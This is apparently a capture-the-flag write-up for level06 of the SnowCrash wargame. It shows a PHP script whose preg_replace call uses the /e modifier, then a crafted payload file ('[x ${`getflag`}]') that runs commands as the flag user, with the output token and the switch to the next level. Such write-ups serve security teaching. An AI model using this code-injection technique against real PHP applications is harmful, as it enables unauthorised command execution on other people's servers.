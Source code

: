 # level06

- We login as user level06.
```
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

```
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```


- A binary as well as a PHP script are present, the binary appears to execute the PHP script. Here is the content of the script:
```php
#!/usr/bin/php
<?php
function y($m) {
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m;
}

function x($y, $z) {
        $a = file_get_contents($y);
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        return $a;
}

$r = x($argv[1], $argv[2]); print $r;
?>
```


- The script makes calls to `preg_replace()` to format the content of the file given to it as first parameter before displaying it.
The line of interest to us is the following:
>`$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);`


- This line states that if the content of the file starts with `[x ` and ends with `]`, everything located between these boundaries can be executed as PHP code (due to `/e`). The output of this execution will then be passed as a parameter to the `y()` function, so:
```
level06@SnowCrash:~$ echo "[x \${\`getflag\`}]" > /tmp/test
```

```
level06@SnowCrash:~$ cat /tmp/test
[x ${`getflag`}]
```

```
level06@SnowCrash:~$ ./level06 /tmp/test
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

```
level06@SnowCrash:~$ su level07
Password:wiok45aaoguiboiki2tuin6ub
level07@SnowCrash:~$
```